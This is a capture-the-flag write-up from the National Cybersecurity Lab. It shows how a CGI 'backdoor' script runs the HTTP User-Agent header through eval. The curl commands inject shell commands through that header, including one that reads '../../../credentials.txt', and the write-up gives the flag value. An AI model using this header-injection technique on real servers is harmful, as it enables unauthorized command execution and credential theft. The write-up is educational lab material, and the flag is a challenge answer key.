



Challenge: Find The Flag

Category: National Cybersecurity Lab (NCL)

>You have found a secret backdoor into the machine, but how do you operate it?

>Could you possibly find a way to use the backdoor to find the secret password to access the machine?

>You will know the flag when you find the secret password!

From "Find The Flag" (Part 1), I found /cgi-bin/parametersbackdoor.sh from robots.txt.

```sh
curl http://200.200.200.168/cgi-bin/parameterbackdoor.sh
```

And we see this:


From this code, we can tell that:

```python
command="$HTTP_USER_AGENT"
```
The HTTP user agent is assigned to the "command" variable.

```python
output=$(eval "$command" 2>&1)
```
The "command" variable is executed and output is assigned to the "output" variable.

So I tested it with

```sh
curl -H "User-Agent: ls -l" http://200.200.200.168/cgi-bin/parameterbackdoor.sh
```


and it works!!

So with some adjustments..
```sh
curl -H "User-Agent: cat ../../../credentials.txt" http://200.200.200.168/cgi-bin/parameterbackdoor.sh
```



And we found the flag!

> flag{b@rrow-wight}